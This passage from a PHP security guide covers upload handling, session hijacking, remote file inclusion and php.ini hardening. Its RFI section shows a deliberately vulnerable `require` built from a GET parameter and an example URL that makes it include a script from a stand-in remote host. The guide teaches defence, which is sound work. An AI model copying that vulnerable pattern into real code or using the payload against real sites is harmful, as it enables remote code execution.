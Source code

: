 ## Uploading Files

A lot of security breaches happen where users can upload a file on server. Make
sure you go through all the vulnerabilities of uploading files such as renaming
uploaded file, moving it to publicly unaccessible folder, checking file type
and similar. Since there are a lot of issues to check here, more information is
located in the separate FAQ:

* [How to securely upload files with PHP?](/faq/security/uploading-files/) FAQ.

## Session Hijacking

Session hijacking is an attack where attacker steals session ID of a user. Session
ID is sent to server where `$_SESSION` array gets populated based on it. Session
hijacking is possible through an XSS attack or if someone gains access to folder
on server where session data is stored.

## Remote File Inclusion

Remote file inclusion attack (RFI) means that attacker can include custom scripts:

```php?start_inline=1
$page = $_GET['page'] ?? 'home'

require $page . '.php';
```

In above code `$_GET` can be set to a remote file `http://yourdomain.tld/index.php?page=http://example.com/evilscript`

Make sure you disable this in your `php.ini` unless you know what you're doing:

```ini
; Disable including remote files
allow_url_fopen = off
; Disable opening remote files for include(), require() and include_once() functions.
; If above allow_url_fopen is disabled, allow_url_include is also disabled.
allow_url_include = off
```

## PHP Configuration

Always keep installed PHP version updated. You can use
[versionscan](https://github.com/psecio/versionscan) to check for possible
vulnerabilities of your PHP version. Update open source libraries and applications
and maintain web server.

Here are some of the important settings from `php.ini` that you should check out.
You can also use [iniscan](https://github.com/psecio/iniscan) to scan your
`php.ini` files for best security practices.

### Error Reporting
